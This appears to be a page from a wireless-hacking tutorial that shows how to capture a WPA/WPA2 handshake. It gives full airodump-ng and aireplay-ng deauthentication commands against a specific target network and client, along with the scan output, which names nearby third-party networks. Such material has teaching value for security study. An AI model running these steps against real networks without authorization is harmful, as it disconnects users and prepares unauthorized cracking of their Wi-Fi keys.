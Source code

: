 ```yaml
---
title: Capturing the Handshake
type: default
layout: page
child: Hacking
fold: Network Hacking
---
```


If none of the methods previously shown worked, now you'd need to crack the
WPA/WPA2 encryption or try an Evil Twin Attack (we'll talk about this one
later). Now we are going to learn how to crack the WPA/WPA2 encryption.

Like I said before, when these encryption were designed, the developers knew
about the weaknesses in WEP and they made sure that they fixed them, therefore,
we cannot use the same method used in WEP to crack WPA and WPA2.

In WPA2, the keys are unique, temporary and much longer than they were in WEP,
therefore, the packets sent in the air contain no information that is useful for
us, it doesn't matter even if we capture one million packets, we can't use them
to crack the key. The only packets that contain useful information are the
handshake packets.

The handshake packets are four packets transferred between a client and the
router when the client connects to the network. In this lesson, I am going to
show you how to capture these packets and in the next lessons, we will see how
to use them to crack the WPA or WPA2 key.

First of all, as usual, you'd want to run _airodump-ng_ against all the networks
around you, I've already done that and got this output:

```bash

 CH  3 ][ Elapsed: 0 s ][ 2021-01-07 14:52                                         
                                                                                                                                                                                                      
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                                                      
 CC:35:40:44:F3:69  -75        4        0    0  11  54e  WPA2 CCMP   PSK  Ismael y emi
 58:23:8C:84:78:F9  -71        3        1    0   5  54e  WPA2 CCMP   PSK  UNE_19D2
 9C:C8:FC:4D:01:8F  -72        5        4    1  11  54e. WPA2 CCMP   PSK  FamiliaH
 C4:27:95:62:EE:1E  -64       14        9    4  11  54e  WPA2 CCMP   PSK  HOME-EE1E
 9C:C8:FC:4D:10:CA  -19       12        7    0   6  54e. WPA2 CCMP   PSK  TIGO-7A54
 50:75:F1:EA:83:A2  -70        7        0    0  11  54e. WPA2 CCMP   PSK  PEDROJUAN

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
```

As I've done it so far, my target network is _TIGO-7A54_.

The first thing we are going to do is to run _airodump-ng_ on our target network
and store the data in a file exactly the same way that we used to do with WEP.
We are going to execute the following command:

```bash
airodump-ng --bssid [TargetNetworkBSSID] --channel [TargetNetworkChannel] --write wpa_handshake [InterfaceInMonitorMode]
```

If I replace the _[...]_ with the actual data of my target network, the command
would look like this:

```bash
airodump-ng --bssid 9C:C8:FC:4D:10:CA --channel 10 --write wpa_handshake wlp2s0mon
```

We are going to execute that command and airodump-ng will be executing against
our target network. Once _airodump-ng_ is working, all we have to do is sit down
and wait for the handshake to be captured. As I said before, the handshake is
sent when a client connects to the network, so we'll have to wait until a new
client connects to the network.

Once a new client connects to the network, we will capture the handshake and
_airodump-ng_ will tell us that the handshake has been captured. Alternatively,
we can use something we learned before which is a deauthentication attack, we
know that using that attack we can disconnect a client from the network so we
can capture the handshake in a very short period of time, in this way we won't
have to sit down and wait for someone to voluntarily connect to the network.

We already know how to perform a deauthentication attack, we use _aireplay-ng_
we use the _--deauth_ argument, then we specify a large number of packets to
keep the client disconnected for a long period of time, this time I am going to
set it just to 4, to only send four deauthentication packets so the client we
are going to deauthenticate will be disconnected for a very short period of time
so they won't even feel that they got disconnected but it would be enough for
the handshake to be send. Then, we will append the argument _-a_ to our command
to specify the BSSID of our target, then we'll use the argument _-c_ to specify
the MAC of the client we want to disconnect and finally, we will give it the
name of our interface in monitor mode, the entire command looks like this:

```bash
aireplay-ng --deauth 4 -a 9C:C8:FC:4D:10:CA -c D0:9C:7A:DD:B0:5D wlp2s0mon
```

And once this command is finished executing, the output of airodump-ng now will
look like this:

```bash
 CH  6 ][ Elapsed: 42 s ][ 2021-01-07 15:14 ][ WPA handshake: 9C:C8:FC:4D:10:CA
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 9C:C8:FC:4D:10:CA  -21   0      423      251    2   6  54e. WPA2 CCMP   PSK  TIGO-7A54

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 9C:C8:FC:4D:10:CA  D0:9C:7A:DD:B0:5D  -23   54e- 1e  9467      177  TIGO-7A54
```

As you can see in the upper-right section (_WPA handshake_) airodump-ng captured
and stored the handshake successfully.

